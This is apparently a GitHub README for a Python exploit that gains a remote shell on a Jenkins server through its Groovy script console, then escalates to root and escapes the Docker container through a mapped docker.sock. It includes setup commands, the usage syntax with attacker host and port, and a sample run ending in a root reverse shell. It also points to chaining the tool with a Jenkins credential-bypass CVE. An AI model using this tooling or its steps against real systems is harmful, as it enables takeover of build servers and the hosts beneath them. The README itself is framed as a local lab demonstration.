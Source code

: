 # Jenkins

This exploit gives a remote shell on a Jenkins server that is running in a docker container
then it privilege escsalate to root and escape the docker container to provide full root access on the pipeline server.

The inspiration for this code come from the geek lunch session where the PE team migrate to Jenkins and also run docker within docker
in the presentation that makes docker escape and privilege escalation trivial.

## Description

This works because Jenkins script console allow execution of groovy code, so this is not a vuln but a feature that can be exploitet.
Escape docker and get root works because docker.sock is mapped into the container and access to docker.sock is equalent to root access
this is also not a vuln just common sence you not do this from security perspective if you are concern about docker escape and privilege escalation to root.

## Usage

Start docker container with Jenins if you want to test this locally

```ssh
⬢  jenkins_preauth_rce  master ⦿ docker-compose up -d
Creating network "jenkinspreauthrce_default" with the default driver
Creating jenkinspreauthrce_jenkins_1 ... done
```

Verify that container is running.

```ssh
⬢  jenkins_preauth_rce  master ⦿ docker ps
CONTAINER ID        IMAGE                  COMMAND                  CREATED             STATUS              PORTS                                              NAMES
cdd5256e8065        vulhub/jenkins:2.138   "/sbin/tini -- /usr/…"   29 seconds ago      Up 27 seconds       0.0.0.0:8080->8080/tcp, 0.0.0.0:50000->50000/tcp   jenkinspreauthrce_jenkins_1
```

```

Once the Jenkins container is running we can run the exploitation, here is the usage menu.

```ssh
./jenkins_sconsole_rce.py

 ▐▄▄▄▄▄▄ . ▐ ▄ ▄ •▄ ▪   ▐ ▄ .▄▄ ·  ▄▄·        ▐ ▄ .▄▄ ·       ▄▄▌  ▄▄▄ .▄▄▄   ▄▄· ▄▄▄ .
  ·██▀▄.▀·•█▌▐██▌▄▌▪██ •█▌▐█▐█ ▀. ▐█ ▌▪▪     •█▌▐█▐█ ▀. ▪     ██•  ▀▄.▀·▀▄ █·▐█ ▌▪▀▄.▀·
▪▄ ██▐▀▀▪▄▐█▐▐▌▐▀▀▄·▐█·▐█▐▐▌▄▀▀▀█▄██ ▄▄ ▄█▀▄ ▐█▐▐▌▄▀▀▀█▄ ▄█▀▄ ██▪  ▐▀▀▪▄▐▀▀▄ ██ ▄▄▐▀▀▪▄
▐▌▐█▌▐█▄▄▌██▐█▌▐█.█▌▐█▌██▐█▌▐█▄▪▐█▐███▌▐█▌.▐▌██▐█▌▐█▄▪▐█▐█▌.▐▌▐█▌▐▌▐█▄▄▌▐█•█▌▐███▌▐█▄▄▌
 ▀▀▀• ▀▀▀ ▀▀ █▪·▀  ▀▀▀▀▀▀ █▪ ▀▀▀▀ ·▀▀▀  ▀█▄▀▪▀▀ █▪ ▀▀▀▀  ▀█▄▀▪.▀▀▀  ▀▀▀ .▀  ▀·▀▀▀  ▀▀▀
[mikael.kall@kindredgroup.com]

Usage: ./jenkins_sconsole_rce.py <URL> <LHOST> <LPORT> <USERNAME> <PASSWORD>

EXAMPLE: ./jenkins_sconsole_rce.py 'http://127.0.0.1:8080' 10.100.12.xx 1337 <USERNAME> <PASSWORD>

```

Exploit do a reverse_tcp connection so you need to specify your ip and port to your computer for exploit to connect back to
your listener.

```ssh
jenkins  ./jenkins_sconsole_rce.py 'http://127.0.0.1:8080' 10.100.12.41 1337 admin admin
[+] LHOST = 10.100.12.41
[+] LPORT = 1337
[+] Shell listen
[+] HTTP Listen = 8000
172.17.0.2 - - [15/Jun/2018 09:37:21] "GET /5 HTTP/1.1" 200 -
sh-4.4# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4,6,10,11(ftp),20,26(proc),27
```

You now have remote shell on the Jenkins instance and escaped the docker container and got root access on the target machine.

Note that username and password is not required on this demo password authentication is disabled on the container but if you run
on another instance then it may be required or need to be chained with the credentials bypass CVE in Jenkins that you can find upstream.